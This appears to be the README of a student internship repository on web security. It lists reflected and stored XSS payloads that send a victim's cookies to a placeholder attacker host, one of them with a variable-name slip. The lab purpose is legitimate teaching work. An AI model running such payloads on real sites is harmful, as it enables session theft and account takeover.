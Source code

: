 # Internship cyber security course
This repository collects tools and methodologies used in the context of system security intership
## Students
1. Dario Collina
2. Andrea Di Caro
## Analyzed vulnerabilities
- XSS reflected
- XSS stored

## Payloads
### Reflected
    <script>window.location.href="http://<attacker IP>:8000/a.html?c="+document.cookie</script>
### Stored
    <img src="x" onerror=this.src='http://<attacker IP>:8000/'+document.cookie; />
    <script>i=document.createElement('img');i.src='http://<attacker IP>:8000/'+document.cookie;document.body.appendChild(img)</script>

## TODO Filippo
Upload source files

## TODO Andrea & Dario
1. describe the analyzed vulnerabilites (you can use external references)
2. describe the laboratory setup. we need to have Apache2 with PHP enabled. You can install a XAMP server or use a docker container
3. describe the attacks scenario
4. describe the mitigation actions

